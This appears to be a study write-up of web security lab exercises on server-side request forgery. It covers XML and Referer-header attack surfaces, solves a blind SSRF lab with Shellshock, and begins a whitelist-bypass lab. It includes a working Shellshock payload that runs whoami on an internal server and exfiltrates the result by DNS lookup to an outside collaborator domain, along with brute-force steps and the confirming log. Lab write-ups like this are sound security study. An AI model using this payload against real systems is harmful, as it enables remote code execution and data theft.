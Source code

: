 ### URLs within data formats

Some applications transmit data in formats with a specification that allows the inclusion of URLs that might get requested by the data parser for the format. An obvious example of this is the XML data format, which has been widely used in web applications to transmit structured data from the client to the server. When an application accepts data in XML format and parses it, it might be vulnerable to XXE injection. It might also be vulnerable to SSRF via XXE. We'll cover this in more detail when we look at XXE injection vulnerabilities.

### SSRF via the Referer header

Some applications use server-side analytics software to tracks visitors. This software often logs the Referer header in requests, so it can track incoming links. Often the analytics software visits any third-party URLs that appear in the Referer header. This is typically done to analyze the contents of referring sites, including the anchor text that is used in the incoming links. As a result, the Referer header is often a useful attack surface for SSRF vulnerabilities.

### Lab: Blind SSRF with Shellshock exploitation
This site uses analytics software which fetches the URL specified in the Referer header when a product page is loaded.

To solve the lab, use this functionality to perform a blind SSRF attack against an internal server in the `192.168.0.X` range on port `8080`. In the blind attack, use a `Shellshock` payload against the internal server to exfiltrate the name of the OS user. 

https://blog.cloudflare.com/inside-shellshock/

https://nvd.nist.gov/vuln/detail/CVE-2014-6271

**ShellShock**

This vulnerability in Bash allows remote code execution without confirmation. A series of random
characters, `() { :; };` , confuses Bash because it doesn't know what to do with them, so by default, it
executes the code after it.

**Challenge**

The goal of this challenge is to perform ShellShock exploitation on the machine.

Payload: `() { :; }; /usr/bin/nslookup $(whoami).g1i1mgpi48vhx6c9owzxpjuhu80zowcl.oastify.com`

To get the ip of the machine, brute force http://192.168.0.<**1 to 255**>:8080

Modify the User-agent header to the payload, and the Referer header to the ip of the machine
```
The Collaborator server received a DNS lookup of type A for the domain name peter-AxQniX.t82ettwvbl2u4jjmv96aww1u1l7cvbj0.oastify.com.  

The lookup was received from IP address 3.248.180.98:22232 at 2025-Feb-11 11:30:35.024 UTC.
```

### Lab: SSRF with whitelist-based input filter
This lab has a stock check feature which fetches data from an internal system.

To solve the lab, change the stock check URL to access the admin interface at http://localhost/admin and delete the user carlos.

